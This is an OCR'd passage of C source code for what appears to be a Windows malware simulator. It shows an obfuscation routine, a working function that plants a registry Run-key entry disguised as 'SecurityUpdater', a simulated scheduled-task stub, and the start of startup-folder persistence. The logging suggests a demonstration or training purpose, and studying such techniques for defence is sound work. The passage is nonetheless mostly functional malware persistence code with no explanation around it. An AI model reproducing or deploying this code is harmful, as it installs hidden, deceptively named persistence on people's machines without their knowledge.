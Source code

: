 ```c
    for (size_t i = 0; i < len; i++) {
        data[i] = (data[i] << 4) | (data[i] >> 4);
    }
    
    log_message("OBFUSCATION", "Multi-layer decryption completed", TRUE);
}

// ==========================================
// PERSISTENCE TECHNIQUES
// ==========================================

// Registry run key persistence
BOOL set_registry_persistence(const char* path) {
    HKEY hKey;
    LSTATUS status;
    char message[512];
    
    // Open the Run key
    status = RegOpenKeyExA(HKEY_CURRENT_USER, 
                         "Software\\Microsoft\\Windows\\CurrentVersion\\Run", 
                         0, KEY_SET_VALUE, &hKey);
    
    if (status != ERROR_SUCCESS) {
        sprintf(message, "Failed to open registry key for persistence. Error: %ld", status);
        log_message("ERROR", message, TRUE);
        return FALSE;
    }
    
    // Set the value
    status = RegSetValueExA(hKey, "SecurityUpdater", 0, REG_SZ, 
                          (BYTE*)path, strlen(path) + 1);
    
    if (status != ERROR_SUCCESS) {
        sprintf(message, "Failed to set registry value. Error: %ld", status);
        log_message("ERROR", message, TRUE);
        RegCloseKey(hKey);
        return FALSE;
    }
    
    RegCloseKey(hKey);
    
    sprintf(message, "Registry persistence set: %s", path);
    log_message("PERSISTENCE", message, TRUE);
    return TRUE;
}

// Scheduled task persistence (simulated)
BOOL simulate_scheduled_task_persistence(const char* path) {
    char message[512];
    sprintf(message, "Would create scheduled task for: %s", path);
    log_message("PERSISTENCE", message, TRUE);
    
    // In a real implementation, this would use the Task Scheduler API
    log_message("PERSISTENCE", "Task name: SecurityScanner, Run daily at startup", TRUE);
    return TRUE;
}

// Startup folder persistence
BOOL set_startup_folder_persistence(const char* originalPath) {
    char startupFolder[MAX_PATH];
    char newPath[MAX_PATH];
    char message[512];
    BOOL result = FALSE;
```